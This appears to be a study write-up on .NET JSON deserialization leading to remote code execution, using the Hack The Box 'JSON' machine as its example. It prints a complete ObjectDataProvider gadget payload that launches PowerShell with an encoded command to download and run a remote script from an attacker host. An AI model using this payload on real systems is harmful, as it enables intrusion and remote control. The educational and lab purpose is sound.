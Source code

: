  # Deserialization - Object Instantiation for Remote Code Execution
 
I am currently studying Offensive Security Advanced Web Attacks and Exploitation (WEB-300). One of the sections in the curriculum is a Dot Net Nuke (DNN) deserialization vulnerability leading to code execution.

I have carried out some deserialization attacks before (all legal of course), and whilst I understand the concpet behind them I had never really thought about how the RCE occurs.

I decided to have a look at the underlying .Net objects to demonstrate what is happening under the hood once the deserialization has been carried out an the object has been instantiated.

Hopefully this will help others understand why code execution is achieved.

## JSON

The hack the box JSON machine is a perfect example to explain the underlying object instantiation. Without going in to too much detail the HTTP POST payload used to exploit JSON is shown below:

```json
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd','/c powershell.exe  -exec bypass -enc SQBFAFgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4ANAAvAHIAZQB2AC4AcABzADEAIgApAA==']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
